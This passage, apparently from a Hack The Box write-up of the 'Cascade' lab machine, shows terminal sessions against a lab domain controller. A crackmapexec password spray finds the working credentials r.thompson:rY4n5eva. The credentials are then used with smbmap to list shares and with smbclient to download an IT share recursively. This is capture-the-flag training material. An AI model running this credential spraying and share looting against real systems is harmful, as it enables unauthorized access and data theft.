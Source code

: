 ```
### crackmapexec 
```
zweilos@kalimaa:~/htb/cascade$ crackmapexec smb -u users -p passwords -d Cascade 10.10.10.182

Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:CASCADE) (signing:True) (SMBv1:False)
zweilos@kalimaa:~/htb/cascade$ crackmapexec smb -u users -p passwords -d Cascade 10.10.10.182
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:Cascade) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [-] Cascade\CascGuest:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] Cascade\arksvc:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] Cascade\s.smith:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [+] Cascade\r.thompson:rY4n5eva
```

## Initial Foothold
### Enumeration as User `r.thompson`

### smbmap
```
zweilos@kalimaa:~/htb/cascade$ smbmap -H 10.10.10.182 -u r.thompson -p rY4n5eva
[+] IP: 10.10.10.182:445        Name: Casc-DC1                                          
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        Audit$                                                  NO ACCESS
        C$                                                      NO ACCESS       Default share
        Data                                                    READ ONLY
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        print$                                                  READ ONLY       Printer Drivers
        SYSVOL                                                  READ ONLY       Logon server share
```

### smbclient

`r.thompson` is a member of the `IT` group so that is probably what he has access to. However, it seems to be a dead end.

```
smb: \> ls IT\
  .                                   D        0  Tue Jan 28 13:04:51 2020
  ..                                  D        0  Tue Jan 28 13:04:51 2020
  Email Archives                      D        0  Tue Jan 28 13:00:30 2020
  LogonAudit                          D        0  Tue Jan 28 13:04:40 2020
  Logs                                D        0  Tue Jan 28 19:53:04 2020
  Temp                                D        0  Tue Jan 28 17:06:59 2020

                13106687 blocks of size 4096. 7795046 blocks available
smb: \> tarmode
tar:311  tarmode is now full, system, hidden, noreset, quiet
smb: \> recurse
smb: \> prompt
smb: \> mget *
getting file \IT\Email Archives\Meeting_Notes_June_2018.html of size 2522 as Meeting_Notes_June_2018.html (10.7 KiloBytes/sec) (average 10.7 KiloBytes/sec)
getting file \IT\Logs\Ark AD Recycle Bin\ArkAdRecycleBin.log of size 1303 as ArkAdRecycleBin.log (6.9 KiloBytes/sec) (average 9.0 KiloBytes/sec)
getting file \IT\Logs\DCs\dcdiag.log of size 5967 as dcdiag.log (28.3 KiloBytes/sec) (average 15.4 KiloBytes/sec)
getting file \IT\Temp\s.smith\VNC Install.reg of size 2680 as VNC Install.reg (13.8 KiloBytes/sec) (average 15.0 KiloBytes/sec)
```
```